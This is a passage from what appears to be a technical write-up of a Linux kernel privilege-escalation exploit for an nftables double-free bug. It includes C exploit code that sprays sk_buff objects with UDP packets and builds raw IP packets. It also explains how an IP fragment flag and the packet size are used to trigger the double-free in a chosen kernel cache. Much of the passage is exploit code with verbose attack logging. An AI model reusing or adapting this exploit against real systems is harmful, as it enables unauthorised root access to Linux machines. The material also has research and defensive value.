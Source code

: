 Copy

Codeblock 5.1.2.1.1: The `send_ipv4_udp()` exploit function written in C, which abstracts away networking data.

```c
static void alloc_ipv4_udp(size_t content_size)
{
	PRINTF_VERBOSE("[*] sending udp packet...\n");
	memset(intermed_buf, '\x00', content_size);
	send_ipv4_udp(intermed_buf, content_size);
}

static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (setup code)

    // pop N skbs from skb freelist
	for (int i=0; i < CONFIG_SKB_SPRAY_AMOUNT; i++)
	{
		PRINTF_VERBOSE("[*] reserving udp packets... (%d/%d)\n", i, CONFIG_SKB_SPRAY_AMOUNT);
		alloc_ipv4_udp(1);
	}

    // ... (rest of the exploit)
}
```

Copy

Codeblock 5.1.2.1.2: Partial code for the exploit written in C, which allocated UDP packets to spray sk\_buff objects, for free-usage later.

##### 5.1.2.2. Triggering double-free 1st free

In order to trigger the double-free I send an IP packet which triggers the nftables rule we set up earlier. It is an arbitrary protocol excluding TCP and UDP, because they would get passed on to the TCP/UDP handler code which would panic the kernel due to data corruption.

Note the usage of the `IP_MF` flag ( `0x2000`) in the offset field of IP header, which we use to force the skb into an IP fragment queue, and free the skb at will later by sending the "completing" fragment. Also note that the size of this skb determines the double-free size. If we allocate a packet with 0 bytes content, the allocated skb head object will be in kmalloc-256 (because of metadata), but if we allocate an packet with 32768 bytes, it will be order 4 (16-page from the buddy-allocator).

```c
static char intermed_buf[1 << 19]; // simply pre-allocate intermediate buffers

static int sendto_ipv4_ip_sockfd;

void send_ipv4_ip_hdr(const char* buf, size_t buflen, struct ip *ip_header)
{
	size_t ip_buflen = sizeof(struct ip) + buflen;
    struct sockaddr_in dst_addr = {
		.sin_family = AF_INET,
		.sin_addr.s_addr =  inet_addr("127.0.0.2")  // 127.0.0.1 will not be ipfrag_time'd. this can't be set to 1.1.1.1 since C runtime will prob catch it
	};

    memcpy(intermed_buf, ip_header, sizeof(*ip_header));
	memcpy(&intermed_buf[sizeof(*ip_header)], buf, buflen);

	// checksum needds to be 0 before
	((struct ip*)intermed_buf)->ip_sum = 0;
	((struct ip*)intermed_buf)->ip_sum = ip_finish_sum(ip_checksum(intermed_buf, ip_buflen, 0));

	PRINTF_VERBOSE("[*] sending IP packet (%ld bytes)...\n", ip_buflen);
```